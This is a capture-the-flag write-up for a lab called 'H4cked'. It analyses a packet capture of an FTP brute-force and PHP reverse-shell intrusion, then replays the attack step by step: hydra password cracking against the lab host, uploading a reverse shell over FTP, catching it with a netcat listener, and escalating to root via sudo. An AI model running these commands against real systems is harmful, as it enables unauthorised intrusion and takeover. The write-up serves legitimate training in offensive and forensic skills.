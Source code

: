 # H4cked

<img src="hacked.png" width=200 alt="hacked">

Hey! how are yo doing? 

We are usually on the red side, trying to hack machines

But today we doing blue stuff

Investigating a pcap file to catch a hacker

## Analysis

we open `Capture.pcapng` with your favorite tool

I go with `wireshark`

Just read a bit and you already understand someone is trying to `ftp` as `jenny`

Might be bruteforcing with `hydra`

Follow the tcp stream on successful login to get the password `password123`

He was in `/var/www/html` then made a http get request for `/shell.php`

the file can be read after `ftp-data` filter is applied

obviously its from [pentestmonkeys](http://pentestmonkey.net/tools/php-reverse-shell)! 

I dumped the file content as printable text in a txt file for readabilty

Now its time to follow the tcp stream again and get his actions inside `wir3`

he spawnned a more comfortable shell with the good ol'

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

then used `whoami` then `sudo su` like a boss 

jenny got too many privileges for someone using such a weak password

My man cloned a badass backdoor from project [Reptile](git clone https://github.com/f0rb1dd3n/Reptile.git)

Just read about it!

Now its time to do better than the attacker

## Getting Access

he obviously changed the password so we can't just ssh as jenny (duh)

so we have to re-do everything

we can directly get into the hydra cracking

```
└──╼ $hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.100.132/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-01 17:33:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.100.132:21/
[STATUS] 93.00 tries/min, 93 tries in 00:01h, 14344339 to do in 2570:41h, 16 active
[21][ftp] host: 10.10.100.132   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 13 final worker threads did not complete until end.
[ERROR] 13 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-01 17:34:51

```

He is doing better than jenny at least

```
└──╼ $ftp 10.10.100.132
Connected to 10.10.100.132.
220 Hello FTP World!
Name (10.10.100.132:nair0lf32): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

```

Updated his own shell to serve us as `shell2.php`

```

ftp> put /h4cked/shell2.php shell2.php
local: /h4cked/shell2.php remote: shell2.php
227 Entering Passive Mode (10,10,100,132,140,101)
150 Ok to send data.
226 Transfer complete.
5524 bytes sent in 0.00 secs (65.0382 MB/s)
ftp> ls
227 Entering Passive Mode (10,10,100,132,170,74)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
-rw-------    1 1000     1000         5524 Feb 01 17:12 shell2.php
ftp> chmod 777 shell2.php
200 SITE CHMOD command ok.
```

We are in too! Now Get that TTY!

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 43016
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 17:15:04 up 39 min,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$

```

## privilege escalation

Now we do the good ol' switcheroo

```
www-data@wir3:/home/jenny$ su jenny
su jenny
Password: 987654321

jenny@wir3:~$ sudo su
sudo su
[sudo] password for jenny: 987654321

root@wir3:/home/jenny# 


```

Get the flag

```
root@wir3:/home/jenny# cd /root
cd /root
root@wir3:~# ls
ls
Reptile
root@wir3:~# cd Reptile
cd Reptile
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
root@wir3:~/Reptile# cat flag.txt
cat flag.txt
straight_to_jail_intruder
```

Nice,simple, easy room!
